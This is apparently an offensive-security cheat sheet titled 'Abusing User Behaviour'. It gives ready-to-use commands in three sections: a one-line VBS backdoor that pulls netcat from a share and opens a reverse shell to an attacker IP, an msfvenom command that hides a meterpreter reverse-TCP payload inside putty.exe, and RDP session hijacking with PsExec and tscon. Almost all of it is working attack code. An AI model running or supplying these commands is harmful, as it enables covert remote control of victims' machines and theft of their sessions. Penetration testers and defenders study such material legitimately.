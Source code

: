 # Abusing User Behaviour

## Backdooring .vbs Scripts

Put it on a share

```vba
CreateObject("WScript.Shell").Run "cmd.exe /c copy /Y \\10.10.28.6\myshare\nc64.exe %tmp% & %tmp%\nc64.exe -e cmd.exe <attacker_ip> 1234", 0, True

```

## Backdooring .exe Files

\
Exemple backdooring a putty.exe file&#x20;

```bash
msfvenom -a x64 --platform windows -x putty.exe -k -p windows/meterpreter/reverse_tcp lhost=<attacker_ip> lport=4444 -b "\x00" -f exe -o puttyX.exe

```

## RDP hijacking

```batch
# As admin run cmd as system
PsExec64.exe -s cmd.exe
# fetch users 
query user
# switch session
tscon <target session id> /dest:<current_sesion_name>

```
